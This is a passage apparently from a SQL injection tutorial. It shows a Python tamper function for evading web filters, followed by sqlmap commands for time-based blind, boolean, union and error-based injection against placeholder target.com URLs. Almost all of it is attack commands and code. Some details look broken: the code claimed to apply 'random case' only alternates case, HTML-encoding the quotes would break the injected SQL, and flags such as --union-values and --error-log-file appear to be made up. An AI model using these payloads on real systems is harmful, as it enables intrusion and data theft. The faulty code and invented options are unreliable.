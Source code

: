 ```python
    retVal = payload
    
    if payload:
        # Replace spaces with comments
        retVal = re.sub(r"\s+", "/**/", retVal)
        
        # Replace equals with LIKE
        retVal = re.sub(r"=", " LIKE ", retVal)
        
        # Add random case
        retVal = ''.join(char.upper() if i % 2 == 0 else char.lower() 
                        for i, char in enumerate(retVal))
        
        # Add HTML encoding for special characters
        retVal = retVal.replace("'", "&#39;")
        retVal = retVal.replace('"', "&#34;")
        retVal = retVal.replace("<", "&#60;")
        retVal = retVal.replace(">", "&#62;")
    
    return retVal
```

### Advanced Exploitation Scenarios

#### Blind SQL Injection with Time Delays
```bash
# Time-based blind injection
sqlmap -u "http://target.com/search.php" --data="q=test" --technique=T --time-sec=5

# Custom time-based payload
sqlmap -u "http://target.com/api/search" --data='{"query":"test"}' --technique=T --time-sec=3 --headers="Content-Type: application/json"

# Boolean-based blind injection
sqlmap -u "http://target.com/login.php" --data="username=admin&password=test" --technique=B --string="Welcome"
```

#### Union-based Injection with Column Discovery
```bash
# Automatic column discovery
sqlmap -u "http://target.com/product.php?id=1" --technique=U --union-cols=1-20

# Manual column specification
sqlmap -u "http://target.com/product.php?id=1" --technique=U --union-cols=5 --union-char="NULL"

# Union with specific data types
sqlmap -u "http://target.com/product.php?id=1" --technique=U --union-cols=5 --union-values="1,2,3,4,5"
```

#### Error-based Injection
```bash
# Error-based extraction
sqlmap -u "http://target.com/news.php?id=1" --technique=E --dbms=mysql

# Custom error-based payload
sqlmap -u "http://target.com/api/news" --data='{"id":1}' --technique=E --error-log-file="/tmp/errors.log"
```
